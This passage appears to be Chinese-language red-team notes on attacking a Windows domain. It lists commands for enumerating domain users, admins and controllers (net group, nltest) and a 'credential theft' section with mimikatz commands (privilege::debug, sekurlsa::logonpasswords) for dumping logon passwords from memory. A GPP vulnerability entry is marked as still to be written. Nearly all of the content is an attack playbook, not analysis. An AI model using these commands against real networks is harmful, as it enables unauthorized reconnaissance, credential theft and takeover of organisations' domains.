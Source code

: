 ### 收集域内基础信息

获取域用户SID：`whoami /all `

查询域内所有用户：`net user /domain`

查询指定域用户的详情信息：`net user xxx /domain `

查询域：`net view /domain`

查询域内的所有计算机 ：`net view /domain:SHQAX`

查询所有域成员计算机列表：`net group "domain computers" /domain `

获取域信任信息：`nltest /domain_trusts `



### 定位域控

查询域控制器：`net group "domain controllers" /domain`

查看域控制器的机器名：`nltest /DCLIST:SHQAX`



### 定位域管理员

查询域管理员用户列表：`net group "domain admins" /domain`

查询域系统管理员用户组：`net group "Enterprise admins" /domain `

使用psloggedon.exe、PVEFindADUser.exe等相关工具定位域管理员



### 定位域管理进程

首先查询域管理员列表：`net group “Domain Admins” /domain`
再通过`tasklist /v`命令寻找进程所有者为域管理员的进程



## 0x03 登录凭证窃取

### GPP漏洞

只存在于winserver 2008没有上补丁（KB2962486）的时候。

待补充。



### mimikatz

#### 获取本地帐户密码

当目标为win10或2012R2以上时，默认在内存缓存中禁止保存明文密码，需要通过修改注册表

```
#提升权限
privilege::debug

#抓取密码
sekurlsa::logonpasswords
```
